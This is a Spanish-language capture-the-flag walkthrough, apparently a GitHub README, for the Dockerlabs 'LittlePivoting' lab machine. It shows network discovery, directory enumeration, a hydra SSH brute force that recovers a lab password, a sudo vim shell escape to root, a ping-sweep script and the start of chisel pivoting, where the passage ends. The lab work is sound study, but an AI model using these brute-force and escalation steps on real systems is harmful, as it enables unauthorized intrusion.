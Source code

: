 # LittlePivoting

Máquina vulnerable en modo **medium** de Dockerlabs.

---

## 🔎 Reconocimiento

Las máquinas objetivo se encuentran correctamente desplegadas dentro de la red de laboratorio (en este caso, utilizando Docker).

![Reconocimiento](https://i.imgur.com/mgJb6qY.png)

![Reconocimiento](https://i.imgur.com/XcNbbPV.png)

Se utilizó el comando `arp-scan` utilizando la interfaz generada por docker para identificar los dispositivos conectados a la red de manera local. Dando como resultado una máquina disponible, con la ip `10.10.10.2`

```bash
> sudo arp-scan -I br-dcb58c6fa435 --localnet
Interface: br-dcb58c6fa435, type: EN10MB, MAC: 02:42:f4:9f:36:7b, IPv4: 10.10.10.1
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.2	02:42:0a:0a:0a:02	(Unknown: locally administered)

1 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.966 seconds (130.21 hosts/sec). 1 responded
```

---

## 📡 Escaneo ***trus*t**

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios en la **maquina trust**:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 10.10.10.2
```

Resultados principales:

```
# Nmap scan report for 10.10.10.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:0A:0A:0A:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

---

## 📂 Enumeración **_trust_**

Se hizo una inspección del sitio web en el puerto **80** y se identificó un servidor apache en el index, se procedió a realizar un discovery de directorios con gobuster.

```bash
gobuster dir -u "http://10.10.10.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

```
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.2
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php.bak,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html          [32m (Status: 200)[0m [Size: 10701]
/secret.php          [32m (Status: 200)[0m [Size: 927]
/server-status       [33m (Status: 403)[0m [Size: 275]
Progress: 1102785 / 1102785 (100.00%)
===============================================================
Finished
===============================================================

```

La única página que pareció tener información relevante fue la de `secret.php` el cual arrojó datos de un posible usuario llamado **mario**

![Scan1](https://i.imgur.com/zwXv23k.png)

Al no encontrar otra información que se considerara relevante, se procedió a realizar un ataque de brute force con **hydra** al ssh usando el usuario mario y los resultados fueron positivos.

```bash
> hydra -t 4 -l mario -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-06 11:21:58
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.10.2:22/
[22][ssh] host: 10.10.10.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-06 11:22:23
```

---

## 💥 Explotación **_trust_**

Con las credenciales obtenidas se realiza el proceso de explotación ingresando a la terminal por medio del puerto abierto con ssh, el resultado fue el siguiente:

![Werkzeug1](https://i.imgur.com/BxtqCua.png)

---

## 🔝 Escalación de privilegios **_trust_**

Se analizó el entorno para validar cómo conseguir la escalada de privilegios. Por lo que se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/grvujc8.png)

Al tener disponible `/usr/bin/vim` para ejecutar con sudo, se revisó [GTFObins](https://gtfobins.github.io/gtfobins/vim/) para escalar privilegios con este binario y por medio del comando `:!/bin/sh` se puede alcanzar el root.

![SUID](https://i.imgur.com/kttYaL3.png)

Al obtener el usuario root, lo siguiente fue hacer un recon con `hostname -I` para identificar los host disponibles dentro de la red y el resultado fue:

```bash
hostname -I
10.10.10.2 20.20.20.2
```

Se desarrolló un pequeño script en base a un análisis básico de hosts pasando tres optetos como base y se mandó a la máquina trust para ejecutar el reconocimiento al igual que **chisel** el cual es una herramienta de tunelización para establecer la comunicación entre máquinas el cuál puede ser revisado desde [aquí](https://github.com/jpillora/chisel).

### **hostScanner.sh:**

```bash
#!/bin/bash

if [ -z "$1" ]; then
	echo "Use: $0 <prefix>"
	echo "Sample: $0 20.20.20"
fi

PREFIX=$1

for host in $(seq 1 200); do
	timeout 1 bash -c "ping -c 1 ${PREFIX}.$host &>/dev/null" \ && echo "\U0001f43e HOST FOUND - ${PREFIX}.$host"
done
wait

```

![SUID](https://i.imgur.com/7v8BUdK.png)

Desde aquí hubo un pequeño problema de **_command not found_** al ejecutar en bash el `ping` por lo que con una simple instalación sudo apt install iputils-ping o `sudo apt install iputils-ping` o `sudo apt install inetutils-ping` solucionó el problema, luego se ejecutó el hostScanner y se encontraron los siguientes hosts al alcance:

![SUID](https://i.imgur.com/MN4R7hG.png)

#### Crear tunel (**trust** -> **kali**)

Al haber identificado una segunda máquina dentro de los hosts de la máquina **_trust_** se creó un tunel que nos permita alcanzar esa segunda máquina desde la atacante.
